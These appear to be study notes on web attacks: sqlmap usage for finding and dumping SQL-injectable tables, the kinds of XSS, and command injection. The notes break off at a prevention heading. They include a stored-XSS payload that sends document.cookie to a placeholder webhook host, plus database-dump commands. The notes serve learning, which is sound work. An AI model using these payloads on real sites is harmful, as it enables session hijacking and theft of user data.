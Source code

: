 SQL Map can be used to check the sql injection with the payload, we have try to copy and payload and save it in a file and use the command:
-  `sqlmap -r {filename.txt}`
	- This will run the blind sql tests and see if we have any sql injections possible
- `sqlmap -r {filename2.txt} --dump` 
	- This can be used to dump the details found from the tables, if it finds there is a sql injection possiblity
- `sqlmap -r {filename2.txt} --dump -T {table_name}`
	- If we know the table name, we can dump the details from only that table


#### XSS (Cross Site Scripting):

Cross-Site Scripting (XSS) is a security vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users. This can lead to data theft, session hijacking, or spreading malware.

- Reflected: 
	- The script is reflected off a web server and is immediately executed when a user clicks on a malicious link. It is not stored on the server.
- Stored:
	- The malicious script is stored on the server (e.g., in a database) and is served to users who access the affected page.
	- `<script>var i = new Image; i.src="webhookurl/?"+document.cookie;</script>`
		- This is useful to steal the cookie and send it to the web server that is listening
- DOM based:
	- The vulnerability exists in the client-side code (JavaScript) where the script modifies the DOM without proper sanitization, allowing attackers to execute malicious code.
		- Example:
			- `<img src = x onerror = "prompt(1)">`

Note: We can use containers plugin in firefox to mimic multiple users from one system logging in through an web application.


#### Command Injection:

Command injection is a type of security vulnerability that occurs when an attacker is able to execute arbitrary commands on a host operating system via a vulnerable application. This typically happens when an application takes untrusted input and passes it to a system shell or command interpreter without proper validation or sanitization.
##### How it Works:

1. **Input Exploitation**: An attacker manipulates input fields (like forms or URLs) to inject malicious commands.
2. **Execution**: The application executes the injected command with the same privileges as the application, potentially allowing the attacker to gain unauthorized access to the system.
##### Consequences:

- Data theft or modification
- System takeover
- Installation of malware
- Denial of service
##### Prevention:
